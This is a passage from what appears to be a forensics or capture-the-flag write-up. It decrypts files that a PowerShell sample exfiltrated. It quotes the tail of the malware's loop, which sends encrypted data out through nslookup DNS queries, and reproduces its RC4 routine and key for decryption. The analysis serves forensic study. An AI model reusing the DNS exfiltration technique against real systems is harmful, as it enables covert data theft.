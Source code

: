 ```
 { 
 nslookup -type=A $EncryptedText$name. $d; $EncryptedText="" 
 } 
 $Iterator=$Iterator+1
 } 
 
 
 nslookup -type=A $EncryptedText$name. $d 
 
 }

```

In order to decrypt all the files we take a programatic approach using python and scapy but you can take a few approaches such as:

Feed the encryption script the encrypted content in order to decrypt it:


```$R={$D,$K=$Args;$S=0..
255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.Length])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxor
$S[($S[$I]+$S[$H])%256]}}; $Enc = [System.Text.Encoding]::ASCII; $p = $Enc.GetBytes('[System.IO.File]::ReadAllBytes($_.FullName)');  
```

`$z = [System.IO.File]::ReadAllBytes("C:\Users\SANSDFIR\Desktop\sample.dat");`  
`$u = (& $R $z $p);`  
`$e = [System.Convert]::ToBase64String($u);`  
Then print $e.  
The output should look like:  

![](/assets/img/2023-01-27-19-33-42.png)

Another way is to just load the data in Cyberchef and decrypt it directly there the key can be seen being sent to the encryption function ($p = $Enc.GetBytes('[System.IO.File]::ReadAllBytes($_.FullName)') .
